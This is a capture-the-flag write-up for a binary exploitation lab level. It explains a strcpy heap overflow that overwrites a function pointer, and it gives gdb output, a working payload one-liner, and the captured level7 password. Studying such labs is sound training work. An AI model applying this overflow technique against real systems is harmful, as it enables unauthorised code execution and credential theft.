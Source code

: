 # Level 06 Walkthrough

## Binary analysis

The binary allocates two buffers with `malloc`: one for a string (0x40 bytes) and one for a function pointer (4 bytes). The function pointer is initialized to `m()`, which just prints "Nope". The user input (argv[1]) is copied into the string buffer with `strcpy`, which is vulnerable to overflow. After the copy, the function pointer is called. If we overflow the string buffer, we can overwrite the function pointer to point to `n()`, which calls `system("/bin/cat /home/user/level7/.pass")`.

Relevant code:
```
0804848c        char* str = malloc(bytes: 0x40)
0804849c        int32_t (** table)() = malloc(bytes: 4)
080484ae        *table = m
080484c5        strcpy(str, argv[1])
080484d3        return (*table)()

n() at 0x08048454: system("/bin/cat /home/user/level7/.pass")
m() at 0x08048468: puts("Nope")
```

## Exploitation

We find the address returned by `malloc` for the string buffer and the function pointer:

```
(gdb) disass main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.

(gdb) b *0x08048491
Breakpoint 1 at 0x8048491
(gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
(gdb) r hello
Starting program: /home/user/level6/level6 hello

Breakpoint 1, 0x08048491 in main ()
(gdb) p/x $eax
$2 = 0x804a008
(gdb) c
Continuing.

Breakpoint 2, 0x080484a1 in main ()
(gdb) p/x $eax
$3 = 0x804a050
```

We overflow the string buffer to overwrite the function pointer with the address of `n()` (0x08048454).

We generate the payload with the offset between the string buffer and the function pointer, and the address of `n()`.

## Commands used

```
./level6 $(python -c 'print(b"A" * (0x804a050 - 0x804a008) + b"\x08\x04\x84\x54"[::-1])')
```

## Result

After running the exploit, we get the password for level7:

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

